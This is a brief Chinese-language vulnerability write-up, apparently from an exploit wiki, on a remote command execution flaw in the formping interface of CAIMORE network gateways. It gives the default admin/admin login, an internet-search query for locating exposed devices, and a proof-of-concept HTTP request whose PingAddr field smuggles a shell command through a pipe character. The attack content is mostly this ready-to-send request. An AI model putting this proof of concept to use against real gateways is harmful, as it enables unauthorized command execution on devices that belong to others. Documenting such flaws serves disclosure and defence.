


才茂通信 网关 formping 远程命令执行漏洞¶
漏洞描述¶
才茂通信网关 formping 接口存在远程命令执行漏洞，攻击者通过默认口令 admin/admin 登陆系统后通过命令可以获取服务器权限
漏洞影响¶
才茂通信 网关
网络测绘¶
app="CAIMORE-Gateway"
漏洞复现¶
登陆页面，默认口令 admin/admin

验证POC
POST /goform/formping
Authorization: Basic YWRtaW46YWRtaW4=
PingAddr=www.baidu.com%7Cls&PingPackNumb=1&PingMsg=
